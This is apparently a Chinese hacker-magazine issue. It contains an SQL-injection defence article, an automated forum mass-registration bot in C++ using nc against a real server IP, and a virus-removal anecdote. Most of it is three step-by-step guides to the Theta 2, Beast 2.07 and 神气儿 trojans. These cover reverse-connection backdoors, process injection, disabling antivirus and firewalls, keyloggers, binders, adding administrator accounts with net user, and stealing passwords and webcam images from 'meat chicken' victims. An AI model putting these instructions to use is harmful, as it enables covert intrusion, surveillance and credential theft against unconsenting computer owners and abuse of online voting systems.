UserName='' OR 1=1; DROP TABLE USERS-- '
AND CAST(Password AS VARBINARY)=CAST(...) AS VARBINARY
```

至此，大家应该对 SQL Injection 攻击有了全面了解。原因在于登录页面允许任意字符输入且缺少过滤，并使用高权限账号访问数据库，使得 `DROP TABLE` 之类命令可能被执行。

## 二、编程实现

基于以上几个方面的分析，对登录页面代码做了如下修改：

```asp
<%@ Import Namespace="System.Data.SqlClient" %>
<html>
<body>
<h2>Please Log In</h2>
<form runat="server">
<table cellpadding="8">
<tr><td>User Name</td><td><asp:TextBox ID="UserName" RunAt="server" /></td></tr>
<tr><td>...
<asp:RequiredFieldValidator ControlToValidate="UserName" ErrorMessage="Please enter a user name" ... />
<asp:RegularExpressionValidator ControlToValidate="UserName" ValidationExpression="[a-zA-Z0-9]*" ErrorMessage="Invalid user name" ... />
```

使用 `RegularExpressionValidator` 方法对用户名进行过滤，只允许使用英文、数字字符，拒绝包含非英文、数字字符的用户名，这样 `' OR 1=1--` 等攻击代码就不能通过此验证。

```asp
<tr><td>Password</td><td><asp:TextBox ID="Password" TextMode="Password" RunAt="server" /></td></tr>
<asp:RequiredFieldValidator ControlToValidate="Password" ErrorMessage="Please enter a password" ... />
<asp:RegularExpressionValidator ControlToValidate="Password" ValidationExpression="[a-zA-Z0-9]{8,}" ErrorMessage="Invalid password" ... />
</table>
</form>
```

同样为 Password TextBox 控件配置 `RequiredFieldValidator` 与 `RegularExpressionValidator`，对密码进行格式约束，减少通过特殊字符注入攻击的可能性。

```html
<td>
  <asp:Button Text="Log In" OnClick="OnLogin" RunAt="server" />
</td>
...
<script language="C#" runat="server">
void OnLogin(Object sender, EventArgs e) {
  if (Authenticate(UserName.Text, Password.Text)) {
    Output.Text = "Welcome, " + UserName.Text + "!";
  } else {
    Output.Text = "Invalid login";
  }
}
```

```csharp
SqlCommand command = new SqlCommand("proc_IsUserValid", connection);
// 不使用 SELECT COUNT... 命令，而使用存储过程
command.CommandType = CommandType.StoredProcedure;
command.Parameters.Add("@UserName", username);
command.Parameters.Add("@Password", password);
int count = (int)command.ExecuteScalar();
return (count > 0);
```

```sql
INSERT INTO Users (UserName, Password)
VALUES ('abc', 'qwerty')
GO

CREATE PROCEDURE proc_IsUserValid
@UserName varchar(32), @Password varchar(32)
AS
SELECT COUNT(*) FROM Users
WHERE UserName=@UserName
  AND CAST(Password AS VARBINARY)=CAST(@Password AS VARBINARY)
GO
```

对于生成数据库的脚本代码也要进行相应修改，修改后的代码如下：`CREATE DATABASE WebLogin ... CREATE TABLE Users ...`

以上只是针对一些典型的 SQL Injection 攻击对程序做了过滤变量的处理，而 SQL Injection 攻击本身有很强灵活性。本文不能对所有攻击进行全面拦截，只是提供一些值得借鉴的思路，希望能有所帮助。

## 我和黑客X档案论坛注册验证漏洞

作者：刘奇

# 分析

《黑客X档案》推出“2005年5月杂志作者的稿费我来定”活动，读者在论坛投票选择喜欢的文章。由于涉及利益，安全问题不可避免。作者以论坛投票功能为例，从脚本安全角度分析其注册与投票流程。

- 1. 以游客身份进入投票页面，发现不能投票，需先注册会员。
- 2. 使用账号登录后可投一票，返回后不能再次投票，说明每个会员仅能投一次。
- 3. 刷新并重复流程仍提示已投票，常规路径不可重复投票。

若要实现自动投票，程序必须先自动注册。可通过 sniffer 抓取注册请求并分析关键字段，再判断是否可绕过服务器验证条件。

```text
Cookie: sid=...; oldtopics=...; cookietime=...
formhash=...&referer=index...
```

```http
...&username=...&password=...&password2=...
&questionid=0&answer=yes&email=...
&regsubmit=...
```

对比论坛注册选项可见关键参数包括 `formhash`、`username`、`password`、`password2` 等，这些字段是后续自动化与验证绕过分析的重点。

```text
questionid: 安全提问的编号，0 表示不使用安全提问。
answer: 安全提问的答案，默认填 yes。
email: 账号的邮箱地址，不能和任何已经注册的地址相同。
```

## 自动注册的实现

这里要用到一些编程技巧，假设读者会用 C 或者 C++ 编程，我们来看看用 nc 实现注册的过程……保存为 newreg.txt，用 nc 提交给论坛服务器。

```bash
nc -vv 61.152.251.213 80 <newreg.txt
```

接下来讨论如何把手工注册自动化：通过程序调用 nc 提交数据，并在每次提交时修改用户名和邮箱。

```cpp
system("nc -vv 61.152.251.213 80<newreg.txt");
```

文中说明 system 可执行 cmd 命令（如 `net user test /add`），并强调提交内容不能重复，需修改抓包数据中的 username 和 email 字段。

```cpp
// 定位 username 和 email 位置
string::size_type name_pos = textline.find(username);
string::size_type email_pos = textline.find(email);
// 随机生成用户名并替换
srand(time(0));
randnum = rand()%26;
```

```cpp
randnum = ... // 生成随机字符
if (...) flag = 1;
else flag = 0;
username[i] = randnum;
```

解释设置标志 `flag` 的原因：随机数需覆盖大小写字母以降低重复概率；随后构造用户名和 email 并写入文件。

```cpp
string email_first = username;
string email_second = username;
// 根据长度与位置替换 email 前后部分
outfile.write(textline.c_str(), textline.length());
```

有了上述主程序后，可封装为函数或类；作者将代码编译为 exe，在主程序中调用。

```cpp
#include <stdio.h>
#include <windows.h>
void RegisterTest(){
  for(i=0;i<300;i++){
    // ...
  }
}
```

```cpp
system("format_reg.exe");
// logout
system("nc -vv 61.152.251.213 80 <logout.txt");
// register
system("nc -vv 61.152.251.213 80 <newreg.txt");

int main(){
  for(i=0;i<5;i++){
    BeginThread(RegisterTest,0,0);
  }
  system("pause");
  return 0;
}
```

建议将 `format_reg.exe` 代码做成函数以提高效率；并讨论自动投票测试经验与风险提醒。

## 防御方法

- 1. 识别图像验证码（数字型）是较常见且有效的方法。
- 2. 每次注册、发帖或投票使用随机生成的校验码。
- 3. 使用随机 hash，且每次验证都变化。
- 4. 对每个 IP 设置注册、发帖、投票延时或频率限制。

总结：前几种方法可一定程度抑制自动注册、发帖和投票；最后一种适用于限制单用户频率。文末附注相关程序与代码已收录。

# 毒宠


## 恐怖的杀毒历程

瞎子阿桑 / h058

这是一次综合性的杀毒，调用了很多手动杀毒的知识，希望本文可以帮助许多遇到我这种类似情况的朋友。5月1日可以说是既兴奋又郁闷，因为好不容易买了本本，结果玩了没几天就中了毒……（正文略）

SVCH0ST.EXE，再看看下面有 svchost.exe。唉？难道文件名大小写不一样还能共存？顿时我暗自得意起来，因为从这个病毒上我又学会了一招……（正文略）

5月3日是个阳光明媚的日子，一大早我就去办公室上网。我喜欢做网页，所以对扩展名修改的时候很多……突然又冒出一个 QQ 贺卡样式的音乐网站……我中毒了！

启动注册表找到所有 RUN 下的键值，全删了。查找 SVCH0ST.EXE 没发现这个键值……又发现了另一个可疑进程：TSAKMANER.EXE，不会都有关联吧！


图1

怎么办，杀呗！奇怪，SVCH0ST不是系统的进程吗？难道这个病毒是插入线程的……到 C:\WINDOWS\system32 目录下找到 SVCH0ST，发现是个 QQ 图标（图2），肯定是病毒了哇！


图2


图3

这次我算体会到现在病毒的厉害了；但现在还是猜测……如果是系统文件，也不必伪装成文件夹和时间有差异的啊……


图4

紧接着终止它的进程，使用批处理把它删了，再打开注册表查找它的键值，全删了，再次用5月1日的注册表还原，运行 msconfig 把可疑项禁用。再次重启！到这里我也记不得到底重启了几次了，我可怜的电脑啊！这次一切正常了！我这才深深地叹了一口气。

这个不是一篇很理想的教程，旨在提供一点手动杀毒的思路，不过像这种这么多相互保护的病毒还真的很少见！

后来我把病毒放到另一台电脑上用 Symantec AntiVirus 杀毒，并没有报是病毒（图5）。而它跳出 QQ 窗口（里面是网页）和把用户的浏览器设为主页，我想应该是为了宣传他的网站和提高流量，而不是盗取什么东西吧（当然这只是猜测）。

除了发布这个东西的人，谁也不清楚，http://www.lvip.net/ 反正我是屏蔽了，也不会再去了！


图5

> （文中涉及到的病毒程序已经收录于光盘中，仅供研究使用，切勿用于他途）。


cczb1

今天看了国内几篇关于 i-worm.jeans.a 的报道，联想近几年国内杀毒软件厂商的作风，有一种感觉：病毒依旧。

看看下边的报道，这个报道被网上转载率较高：  
“据 XX 全球反病毒监测网（中国杀软厂商）介绍，今日有一个病毒特别值得注意，它是‘琼斯（i-worm.jeans.a）’病毒。‘琼斯’病毒是全球第一个可以自己生成新病毒的病毒，此病毒的出现，可以看作是下一代病毒发展趋势的先声。目前该病毒只是国外某病毒编写组织发布的概念性病毒，所释放的程序还没有危害性，但将来很可能出现利用此思路编写的、真正意义上的自我完善、自我改进的智能化病毒。”

“琼斯（i-worm.jeans.a）”病毒：  
该概念病毒大致为：蠕虫病毒，通过电子邮件传播，依赖系统：win9x/nt/2000/xp。该病毒每次运行之后，会随机生成一个 C 语言的源文件，并即时编译成一个新的病毒变种。通俗地说就是“一个大病毒可以生出来多个表现特征、危害都不同的小病毒”，而要想查杀这些“生出来的病毒”难度会非常大。

其后文章从技术可行性、传播方式、查杀方式、行业反应等角度展开分析，指出当前不少描述存在夸大，真正风险仍需结合样本、传播链与实际破坏行为评估，并呼吁安全厂商在技术与责任层面更严谨对待相关报道与命名。

文末还提到：我们或许非常努力，但却可能碌碌无为；我们或许非常刻苦，但却可能一无所获。或许，有时候我们应该停下来好好思考。


# 主题乐园


## Theta 2 配置和使用详解

凡是接触黑界的朋友都知道 WINSHELL 吧！这可是大名鼎鼎的后门哦！它的主要特点就是个头小，功能齐全，但是它唯一的不足就是不提供反弹连接，这在我们去获取安装有防火墙的主机权限时就觉得力不从心了……前几天去了 Theta 的作者 grirai 的主页上看时，发现已经推出了 Theta 2，赶忙下载下来看了它的英文简介，功能太强大了。

WINSHELL 差不多吧！下面结合图2，我来详细讲下它的配置各个项的意思和要注意的事项。

## General Settings（通用设置）

- “Server File”：这是文件的名字，它在注入的时候就是以这个名字的形式把自己放在系统盘里的，随便填写，最好可以和系统原来就有的一些文件很相似……
- “Port”：这是后门运行后在主机上监听的端口，原则上是随便填的……
- “Server ID”：后门的标识，你可以任意设置……
- “Registry Key”：一旦这个后门运行后，在注册表中添加了这个名字后，后门就不能删去了……
- “Password”：这是 Theta 2 新增的功能，原来的 Theta 1 是没有密码保护功能的……
- “Automatically start with Windows, and lock server file”：这是个复选框，用意是防止文件或注册表项被删掉，并使后门随系统启动。

## 一、Theta 2 的新特点

Theta 2 新增了反弹连接的功能，改进了 Theta 1 的一些内存错误，新增加强密码保护功能，把 Theta 1 的 CGI 通知上线方式改为 PHP 方式……其客户端就 33.3KB（包括加壳的工具 FSG），生成的服务端约 6.4K。若不考虑支持 9* 系统，服务端可更小……具体配置和使用下面会慢慢讲到。


图1

## 二、Theta 2 的配置

我们下载下来的压缩包就有服务端生成器。用 MD5 检测后的 MD5 散列是：69B776EC9F94ABD0D9E2AD11602C97B5……如果你检测到的散列不对，说明下载的软件被修改或感染，建议删除并去作者主页下载。


图2

注册表里的项删掉的话，那后门还会运行吗？呵呵！其实在注册表里或者在系统盘里的文件并不是后门真正运行的，后门运行的是另外的进程，已经注入到别的进程里了，所以呢，就是被删掉也没有关系的。这里要说明的是，要是你在自己的机子上做实验，或者说你不想让后门以后再启动了，那就删选；或者，你就选上吧！选上后我们也可以在连接的时候删除它的，具体方法后面会讲到，不要担心。

## Connection Settings（连接设置）

**“Direct Connection”**：直接连接选项设置，主要应用在主机的 IP 是公网 IP，或者你想连接的机子和你在同一个局域网里，也就是说你可以找到它的 IP，而且主机没有防火墙的情况下使用。这里不需要设置什么，记得我们前面设置“Port”吗，这就是我们设置的后门监听端口，我们连接的时候也是直接连接就行了，这里我没有选。

**“Reverse Connection”**：反弹连接选项。我认为这就是这个后门最出彩的地方，要是主机用了代理或者在局域网里的话，就算他中了我们的后门，我们在网络上找不到他们的 IP 的时候，当然我们用得最多的情况是主机有防火墙，不允许我们连接它，这时我们就需要这个设置了，让它来找我们。这里用这个反弹连接来演示，当我们选上这个单选框的时候，上面设置的 Port 就没有用了，具体设置在下面两个框子里。

**“SIN Port”**：这里是设置让中了后门的电脑来连接我们的端口号，随你的便，当然是你自己的主机没有在用的端口。我们要做的就是用 NC 来监听这个端口就行了。我用的是 50000 端口。你想用什么，自己设置。

**“SIN Address”**：这里设置的是你的计算机名字或者 IP，是让后门反弹连接的主机的 IP 哦！如果你有固定的公网 IP，那就把你的 IP 填上就行了；要是你只想连接到你的一个局域网主机，就把你内网的 IP 写上也可以。比如我这里就是这样做的，我在内网，我把我的内网 IP（192.168.3.54）写上去。要是你想让不限于同个内网的机子来连接，但你的 IP 不固定，也就是说你是用拨号上网的话，这里你需要在 http://no-ip.info 注册一个帐号，比如你申请到的是“you.no-ip.info”，那就在这里填上“you.no-ip.info”。这样的配置就像灰鸽子用 *.yeah.net 中转的一样，但是这里不能自动更新，我们还要去下载一个“no-ip.info”的 IP 更新客户端，你上网的时候就要打开这个客户端，把你的 IP 更新上去。反向连接设置好后，中了后门的电脑每隔 5 秒就向你设置的 IP 和端口连接一次，一直到连接成功为止。

## Notifications（通知方式）

在这里，我将介绍一下后门是如何通知我们哪台电脑中了我们的后门。

**ICQ Notification（ICQ 通知）**：这个也是比较先进的技术，我认为这就很好，很方便啊。你要是有 ICQ 的话，就选上那个复选框，再在后面填上你的 ICQ 号码就是了。当有电脑中了你的后门的时候，会通过 ICQ 来告诉你，消息具体格式会包含端口等信息。

“Server ID”，有的不会，但是这好像并不重要，你去连接的时候就知道是什么“Server ID”了。

**PHP Notification（PHP 页面通知）**：这里改了以前 Theta 1 的 CGI 通知方式，改用 PHP 页面了。当然你要用这个功能的时候，你必须有一个支持 PHP 的空间，作者提供了 http://netfirms.com 免费申请（是否稳定不保证），只要有个空间就行了，再把下面这段保存为 log.php 上传到你的空间上：

```php
<?php
/* Extremely Simple PHP Notification Script */
/* This will append all notifications to white_log.txt in the following format:
   <ServerID>;<ServerID>_IP:<IP>_Port:<Port>
*/

$fp = fopen("log.txt", "a");
fwrite($fp, chr(16).chr(10).$_GET["noti"]);
fclose($fp);
?>
```

如果你的空间里有个文件夹 wenjian，你把上面的 log.php 放在它的下面，那你在填 host 和 path 的时候就要注意了。host 里填你的空间域名（如 www.yourdomain.com）。path 里如果 log.php 在根目录就直接写 log.php；如果在“wenjian”目录下，就写“/wenjian/log.php”（注意有引号与否按程序要求）。配置好后，你查看 log.php 时就可以看到中了后门机器的 IP 和 Port 了，格式如：`log.php?noti=ServerID;<ServerID>_IP:<IP>_Port:<Port>`。


需要注意的是，一定要设置正确，而且你的空间还有空闲。最后我们点 Generate 按钮，自动生成服务端程序。点“是”退出后，在同目录下可以看到生成的服务端可执行文件。

好了，配置好了，我们来看看它的功能。它提供你在 DOS 下的所有功能，另外自带三个功能，代号分别是“@X、@R、@B”。其中“@X”是断开连接并清除痕迹；“@B”是让对方机器重启；“@R”是卸载对方后门。下面再来看具体操作，如果是直接连接的话，用“NC IP PORT”就行了。

简单，我不再多说。现在我就在内网演示它最出彩的功能——反弹连接！看图2的配置，我的机子 IP 是 192.168.3.54，我用 RECTON.exe（知道是什么吗？不晓得的话就去看11期的X吧，呵呵～上面有介绍）的种植功能把后门服务端 theta\server 种在另外一个机子 192.168.3.43 的 D 盘上，如图4所示。

看到了吗？我们进入对方系统了，看看权限怎么样，加个用户试试：`net user theta /add & net localgroup administrators theta /add`，如图7、图8。命令成功完成！搞定！别的命令都可以用，凡是你在 DOS 下面可以用的在这里都可以用，你甚至可以用 TFTP/FTP 去下载别的木马或者后门来运行，好了，就这样吧！


图4


图7

我们在本地监听 50000 端口：`nc.exe -l -p 50000`，回车后看到图5。


图5


图8

提示输入连接密码，我输入刚刚设置的 1234567890，回车看到图6。


图6

最后讲下这个后门的移除，看图8，直接输入“@R”回车就可以看到上面的提示，这样就把后门移去了，但是你还可以连接，一直到对方机子重新启动后，这个后门才不能再用。关于 ICQ 和 PHP 的通知上线我就不举例子了，大家自己去搜索吧！笔者这类文章比较少，有什么没有说明白的地方大家不要见怪，有不明白的，可以去 X 档案论坛发帖子和我讨论，或者给我发邮件：iceksysl@163.com。（文章中涉及到的程序 Theta 2 已收录于光盘中）

## 凶悍的禽兽

天涯衰草

### 一、推荐理由

喜欢玩木马的朋友一定听说过大名鼎鼎的木马 Beast（禽兽），该木马一向以功能强大而著称。虽然《黑客X档案》以前曾介绍过它，但新近推出的 Beast 2.07 版又推出了很多新的功能。今天，笔者将着重以新功能为主来将这款木马介绍给大家。下面就请大家随我一起领略禽兽的凶悍本领。

### 二、操作步骤

#### 1. 配置木马服务端

首先运行最新版的 Beast 2.07，然后点击主界面的“Build Server”按钮（如图1），在弹出的“Server Settings”窗口中设置木马服务端。点击“Basic”按钮后，在右侧视图中设置服务端文件名、密码等信息。新版中加入了反弹连接（Reverse Connection）功能，默认端口为 9999，也可自行修改；如果需要正向连接则选择“Direct Connection”。为增强隐蔽性，还可选择注入到 Internet Explorer、Explorer.exe 等进程中。

程序还提供了更多注入选项，可根据需要将其插入其它系统进程以提高灵活性。由于防火墙与安全策略限制，通常选择浏览器或资源管理器相关进程更容易联网。之后点击“Notifications”可设置上线通知方式，支持 E-mail、ICQ、CGI 等；在“IP(DNS) address”处填写当前 IP，不清楚时可用“GET IP”自动获取。点击“Startup”可设置随系统启动。新版 Beast 采用了较少见的 ActiveX 控件启动方式以增强隐蔽性。再点击“AV-FW Kill”可设置关闭防火墙/杀软，如“Disable XP FireWall”“Kill AV-FW on start”等（见图5），并可在“Configure”中添加规则。


“RISING”就可以了（如图6）。最后选择“Misc”按钮，对其它服务端杂项进行设置。选择“Melt server on install”选项就可以在服务端安装后自动删除服务端程序本身。“Clear Restore points”选项可以清除 XP 的系统还原功能（如图7）。而选择“Enable keylogger”就可以激活键盘记录功能。新版本的 Beast 新增了“Configure”按钮，点击“Configure”按钮，在弹出的“Keylogger”窗口对键盘记录功能进行设置。“Logfile size limit”和“Logfile name”分别表示对记录文件大小的限制和文件名称设定。选择“Enable keylog emailer”后，当记录文件达到你设定的大小后，就会自动发送到你设定的邮箱里。当选择“Enable smart keylogger”后，服务端程序会根据窗口名称来判断并记录下设定程序内的键盘输入（如图8）。“Fake error message”可以设置木马服务端运行后的错误提示，点击“Configure”按钮，在弹出的窗口对错误提示的图标、按钮、正文等进行设定（如图9）。“Delay execution”可以对服务端运行时间及系统重启后的次数进行设定（如图10）。最后，通过“Exe Icon”可以对服务端图标进行设置。所有选项设置完成后，点击“Save”按钮就可保存服务端设置，下次要配置服务端时，点击“Load”按钮就可以读取以前的配置文件。现在点击“Save Server”按钮就可以在木马文件夹中生成一个新的木马服务端，服务端程序自动经过 FSG2.0 的加壳处理。


如果你觉得有必要的话，可以点击主窗口上的“Binder”按钮，然后在弹出的窗口中对服务端进行捆绑处理（如图11）。点击“Add File”按钮可以添加欲捆绑的文件，再点击“Choose Icon”按钮可以选择更换文件图标，最后点击“Bind Files”按钮即可生成捆绑有服务端的新文件。

#### 2. 控制服务端


将配置好的服务端传播出去后，我们就守株待兔等着肉鸡上线来找我们。由于我们使用的是反弹连接的方式，所以在 Beast 2.07 主界面下面的“Port”中填入刚刚设置服务端时填入的端口号 3127，然后点击“Start Listening/SIN”对该端口进行监听，等待服务端上线。由于是采用反弹连接方式，则服务端会自动连接到木马客户端，所以我们无需知道肉鸡 IP 地址；如果是采用正向连接方式，我们就需要首先通过 Email、ICQ 等得到肉鸡 IP 地址，然后主动进行连接。在 Beast 2.07 的主界面中，我们设置好“Host”“Port”和“Password”后，点击“Disconnect”按钮即可连接成功。如果你有大量肉鸡需要控制，点击“Port”后的箭头图标，在弹出的“Address Book”窗口进行配置。在窗口下面分别填入“IP Address”“Port”“Password”和“Comment”，然后点击“Add”按钮将其添加到列表中，还可以通过“Remove”和“Replace”按钮对列表内容进行删除或修改（如图12）。


Beast 是为数不多支持插件扩展的木马之一，这样就可以减小服务端体积，在需要使用某些功能的时候再上传相应插件。点击 Beast 2.07 主界面的“Plugins”按钮，弹出“Plugins”窗口，在此我们可以看到插件包括“ICQ/Trillian Passwords”“DialUp Passwords”“ScreenShots/WEBCam”等四款插件。选择你需要的插件，然后点击“Upload”按钮就可以上传到服务端电脑中（如图13）。


# 主题乐园

Beast 木马的操作都是通过按钮来完成的。在木马操作界面的右边，并列着两列按钮，当你点击左边一列上的任意一个按钮后，右边一列的按钮就会变成和该按钮相关的一些按钮，其实说简单一点就是该按钮的子菜单。点击“Managers”按钮，该按钮包括一些木马的常见控制命令，包括“Files”、“Registry”、“Screen”、“WebCam”等。通过“Files”按钮可以对服务端的电脑进行文件管理，你可以在这执行上传、下载、运行等命令来管理文件（如图14）；而“Registry”按钮可以对服务端的注册表进行管理，包括添加、删除、修改等操作（如图15）。


图14


图18

“Screen”和“WebCam”可以对对方电脑的桌面以及摄像头进行图形捕捉。点击“Screen”按钮，木马默认将捕获的图片放到木马安装目录的 Images 文件夹中，当然我们可以进行更改；我们还可以对图片的颜色深度以及捕捉的间隔时间进行设置（如图16），点击“Start”按钮后即可进行捕捉。不过要使用该命令，我们首先需要上传 ScreenShots/WEBCam 插件，如果没有上传的话，木马会自动提示你并弹出插件上传窗口。点击“Enable Clicks”后，我们可以通过捕捉到的图片对远程电脑进行桌面控制，就像在你自己的电脑上一样。摄像头的捕捉是新版本新添加的功能，不过由于摄像头的捕获和桌面的捕获一样，这里就不再介绍了。通过“Apps”和“Processes”可以对服务端的线程以及进程进行查看管理（如图17、18），然后可以通过“Kill”命令关闭某个你讨厌的线程及进程。


图15


图19

如果服务端的电脑是 WINNT/2K/XP/2003 的系统，我们就可以通过“Services”按钮查看对方系统的服务选项（如图19）。在此显示了远程电脑的所有服务，我们可以通过“Stop”、“Start”、“Disable”等按钮来停止、启动、禁止这些服务。在默认情况下，列表中显示的是对方系统中的所有服务，我们可以通过“View”下拉菜单让其只显示启动的或停止的服务。点击“PassWords”按钮后，我们可以查看对方系统缓存中的密码，点击你需要查看的密码选项后的“Get”按钮，下面就会显示出对应选项的密码，你还可以通过“Save”按钮将其保存（如图20）。不过要读取这些密码，同样需要上传相应的插件。


图16


图20


图17

“Windows”按钮下包括“Hide All”、“Crash”、“Power Off”、“ReBoot”等6个命令按钮。在我看来这些中的一些命令带着极强的破坏性。例如：“Hide All”可以隐藏掉对方桌面、任务栏上的所有命令图标，甚至连在开始菜单中的命令也没有避免；这样的话，别人正在编辑的资料就付之东流了。“Power Off”、“ReBoot”、“Shut Down”、“Log Off”分别表示切断电源、重新启动、关闭电脑、注销。Beast 也和其它木马一样，包含不少恶作剧的功能。“Lamer Stuff”按钮就包括9项进行恶作剧的命令，通过“Hide Icons”、“Hide Tray”、“Hide Start”、“Hide Clock”可以分别隐藏桌面图标、系统托盘、开始菜单、系统时钟；“Disable Tray”可以禁止托盘的使用；“Open CD”可以操控对方的光驱，让其打开、关闭；而“Lock Mouse”和“Crazy Mouse”可以锁定对方的鼠标或者让其疯狂地在桌面上乱动；而“Swap But's”可以使对方鼠标的左右键互换，当对方按下左键就实现了右键的功能。而“Fun Stuff”按钮下也有一些恶作剧按钮，点击“Fun Stuff”下的“Go To URL”按钮可以在弹出的窗口设置一个链接地址（如图21）；然后强行使对方的浏览器打开这个链接。而“WallPaper”按钮命令可以使对方的桌面更改为我们设置路径的图片（如图22）；点击“Chat”按钮，在弹出的“Chat”窗口我们可以和服务端的用户进行互动聊天（如图23）。在“Your Nick”和“Victim's Nick”中分别输入你和对方的名称，点击“Open Chat”就可以开始聊天了。在文字框中输入你要发送的文字，点击“Send”即可。“Restrictions”按钮命令可以对系统、IE 浏览器、控制面板中的众多命令进行隐藏、移去的操作（如图24）。


“Run Appz”命令就是一个模拟的 DOS 操作台（如图27）。如果你在服务端设置时设置了激活键盘记录功能“Enable keylogger”的话，那么就可以通过“Keylogger”命令来下载记录文件（如图28）。通过“System Time”按钮可以更改对方系统的时间（如图29），完成后点击“Refresh”进行更新。


“Server”按钮下的命令都是对对方系统中的服务端进行操作有关的，如通过“Update”按钮可以对以前配置的服务端内容进行更新；而“Info”按钮可以查看并保存对方的系统信息（如图25）。“Misc”按钮下的一些命令有些还是需要着重介绍一下的。通过“Scanner”可以扫描已经被打开 Beast 端口的电脑，当然你也可以通过这个扫描器对其它的端口进行扫描（如图26）。


下面还有两个新功能要介绍给大家。随着换肤功能成为现在软件界的时尚，在 Beast 2.07 中也提供了换肤的功能，点击主界面上的“Skins”按钮，在弹出的窗口中点击“Available Themes”下拉菜单选择其它的皮肤，我们还可以通过“Change hue”和“Change brightness”的滑杆来调节界面的颜色及亮度（如图30），然后点击“Save”按钮保存设置。而通过“Statistics”窗口我们可以对数据的流量进行监控，当客户端和服务端连接成功后，我们就可以从这得到数据流量，“Bytes received”和“Bytes send”分别表示接收和已经发送的数据（如图31）。


至此，最新的 Beast 2.07 就为大家介绍到这。如果有什么问题的话，可以到《黑客X档案》的论坛我们共同探讨。（文章中涉及到的程序 Beast 2.07 已收录于光盘中）

## 又一款国产远控木马——神气儿2.0

随着网络的普及，木马逐渐被人们所熟悉。因为现在许多人对网络安全重视，木马技术也在不断完善进步。现在的木马已经不像以前那样“单纯”！下面我就给大家带来一款国产木马，它的功能绝不逊色于其他木马，隐藏自己的方法也使用的是现在的主流技术，有兴趣的朋友来看吧！

## 功能简介

“神气儿2.0”由国内作者编写，采用 DLL 进程插入型木马。若本地存在某些端口过滤或监测系统提示“监听失败”，可采用主动连接或反向连接两种方式。

> 注意：主动连接是指本机发起连接；反向连接是指木马端主动连接控制端。DNS 连接和 IP 连接分别对应通过域名或直接 IP 建立控制关系。

利用反向连接可以绕过部分防火墙，但通常要求独立外网 IP。若在同一局域网内，木马也可以直接控制内网主机。作者强调“神气儿2.0”具备较好的功能性，如文件管理、文件传输、进程管理、后台服务管理、注册表管理、屏幕控制、DOS 命令、批量处理、重启与关机等。

## 木马服务端的配置

打开“神气儿2.0”，点击“生成被控端”，弹出“被控制端配置”窗口（图1）。在“被控制文件名”中填写服务端生成目录，默认与客户端同目录，也可自定义输出位置。


在“连接”标签中可设置 DNS 域名、指定 IP、上线端口、监听端口等。DNS 域名通常用于动态 IP 场景；指定 IP 适用于固定外网地址；上线端口是木马回连本机时使用的端口；监听端口为控制端等待连接的端口。

“安装”标签中可配置服务端文件名、DLL 名称、连接密码、随机密码等。其中随机密码用于限制仅持有密码的一方可连接被控端。

“启动”标签中有“服务优先启动”等选项，并可设置服务显示名称、服务名称与服务描述。配置完成后点击“生成被控端”即可。

## 服务端的连接

连接服务端较为简单：若设置反向连接，被控端上线后会主动回连；正向连接可在客户端“主机”菜单中选择“添加连接主机”，输入目标 IP 和端口。连接成功后可在“文件浏览”等标签看到远程主机信息，随后即可使用各项远控功能。

## 主要功能


## 1．文件管理

“神气儿2.0”可对远程主机进行文件管理，可任意打开、修改、删除、复制、剪切、重命名、压缩、解压缩文件和目录。在“文件浏览”标签里就可进行操作，就像操作自己硬盘上的文件一样（图3）。

上面这个工具栏按钮可以操作，具体操作我就不给大家一一解释了。可能有人会问了，它的文件管理就这么简单？和普通的木马没什么两样嘛！不是的，它还有一个很独特的功能，就是可以搜索远程电脑硬盘里的文件。在“文件浏览”标签里选中一台被控制的电脑，再选择“搜索文件”标签。它不但可搜索文件，还可按修改日期、文件大小、高级选项进行搜索。

## 2．文件传输

“神气儿2.0”可随意上传／下载文件，可不是依赖于 FTP 哦！如果想下载远程电脑上的文件或文件夹，先选中该文件或文件夹，然后点击工具栏上的“下载”按钮，如图4。

“神气儿2.0”不但可进行本地计算机与远程计算机之间的文件传输，还可对远程电脑与远程电脑进行文件传输，什么意思呢？比如我控制了两台电脑，IP 分别是 192.168.1.2 和 192.168.1.4，我可以把 192.168.1.2 里的文件或文件夹复制到 192.168.1.4 的电脑里，只需选择文件或目录进行复制和剪切即可。


## 3．进程管理

“神气儿2.0”还可管理远程计算机上的进程，在“文件浏览”标签里选中一台所控制的电脑，再选择“进程管理”标签，然后点击最下面的“刷新”按钮（图5）。

看到了吧？它的进程管理工具显示的进程很详细，不光可显示进程名称，还可显示进程里的模块名称（模块一般都是 DLL 文件），下面还有终止进程和设置进程的优先级，如果想终止哪个进程，选中后点击下面的“终止”按钮即可；“设置”按钮用于设置进程的优先级。

## 4．后台服务管理

我们可启动、停止、删除、设置系统服务（图6）。选择“后台服务”标签，点击“刷新”按钮后就会看到远程计算机上的服务，要对哪个服务进行操作，选中后点最下面的“操作”按钮即可。


## 5．注册表管理

注册表是 Windows 很重要的一个部件，“神气儿”里也携带了管理注册表的功能。选择“注册表编辑”标签，懂注册表的人一看就会明白（图7）。如果不了解注册表，笔者劝你不要乱删改，可能会使你失去一台可爱的肉鸡。


## 6．屏幕控制

说实话，“神气儿”的屏幕控制不怎么好用，不建议使用，因为图像截取的速度慢，也就是游戏玩家所说的“卡”，希望作者能在下一版本里进行改进。不过清晰度还算可以，可以自己测试。在“文件浏览”标签里选择一台控制的计算机，然后点击“屏幕控制”标签，点击左边那个“读取屏幕”按钮，然后点击“开始观看”，过几秒就可看到对方桌面了（图8）。呵呵！我控制的这台电脑正在 COPY 电影。

## 7．DOS 命令

“神气儿”木马可在所控制的电脑里执行 DOS 命令，简直就和 SHELL 一样（图9）。我用 DIR 命令浏览了一个被控制电脑的硬盘，点击“DOS命令”标签，然后在下面输入要执行的命令就可以了。

## 8．批量任务

批量任务的意思是同时处理几条任务。点击“批量任务”标签，然后再选择要执行任务的电脑，即“批量任务”标签下的用户名，点“√”即可。在“支持的任务”下选择一个任务，然后点“添加任务”按钮即可（图10）。

设置好后，点右边的“执行任务”按钮即可。右边的“选择所有”按钮是指选择所有要执行的任务，“反向选择”按钮是指选择没有被选中的任务。

## 9．任务进度

最后我们来看看“任务进度”标签，任务进度和批量任务是相关联的。比如说，我用批量任务上传了一个文件，文件正在上传期间可使用任务进度来停止上传、暂停上传和恢复上传（图11），下面有三个按钮，“暂停”是指暂时停止上传的文件，如果暂停后，想让它继续上传，就点击“恢复”按钮。想停止上传文件，就点击“停止”按钮。

## 清除木马

